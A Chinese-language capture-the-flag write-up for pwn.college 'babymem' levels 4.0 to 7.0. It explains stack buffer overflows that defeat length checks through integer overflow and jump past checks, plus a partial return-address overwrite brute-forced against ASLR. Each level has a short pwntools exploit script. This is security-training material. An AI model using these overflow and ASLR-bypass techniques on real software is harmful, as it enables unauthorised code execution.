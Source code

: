 > 注：babymem 后续所有题目的 `x.1` 均是在 `x.0` 基础上要求自己确定偏移量和地址，不再赘述。

### 4.0

对输入长度进行检查，可以用整数溢出绕过，绕过后可能需要多运行几次才能成功，题目也给了提示：

> Because the read() call will interpret your size differently than the check above, the resulting read will be unstable and might fail. You will likely have to try this several times before your input is actually read.

这里 `size` 也可以直接写 `-1`。

```python
win = 0x401861
payload = b'a'*88+p64(win)
size = 0xffffffff

s(payload, size)
```

### 5.0

需要做一次乘法后得到溢出的结果，可以用 2 \* 2147483648 得到。

```python
win = 0x4017eb
payload = b'a'*152+p64(win)
num = 2
size = 2147483648

sla('to send: ', num)
sla('record: ', size)
sa('bytes)!\n', payload)
```

### 6.0

题目给了做法，就是跳到检查语句后面的地址就可以绕过检查。

```python
win = 0x402177
payload = b'a'*88+p64(win)
s(payload)
```

### 7.0

和 6.0 一样需要跳到检查语句后面，IDA 可以看到这个地址是 0x358，区别在于开启了 ASLR 我们只能确定地址的后三位。这里使用的技巧是仅仅覆盖最后两个字节，此时倒数第 4 个 bit 有 1/16 的概率猜对，多运行几次即可。

本题可以删除模版中的 `p=process(binary)` 一行。

```python
win = 0x358
payload = b'a'*72+p16(win)

while True:
    p = process(binary)
    s(payload)

    res = p.recvall()
    if b'pwn.college{' in res:
        print(res[-100:])
        break
```
